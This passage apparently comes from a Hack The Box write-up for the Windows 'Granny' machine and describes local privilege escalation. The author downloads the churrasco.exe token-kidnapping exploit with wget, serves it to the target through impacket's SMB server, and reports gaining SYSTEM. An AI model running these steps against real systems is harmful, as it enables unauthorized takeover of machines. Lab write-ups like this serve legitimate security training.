 > I tried many of those, but I think the shell was too unstable to run the exploits correctly.

Then, I looked at the privileges of the user:

![](/assets/img/htb/machines/windows/easy/granny/priv.png)

So I decided to look at [Microsoft Windows Server 2003 - Token Kidnapping Local Privilege Escalation ](https://www.exploit-db.com/exploits/6705).

I ran an SMB server on my Kali machine in order to transfer the exploit file `churrasco.exe` to the target:

{% highlight bash %}
$ wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
$ python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
...
{% endhighlight %}

I executed `churrasco.exe` then I got **SYSTEM**:  
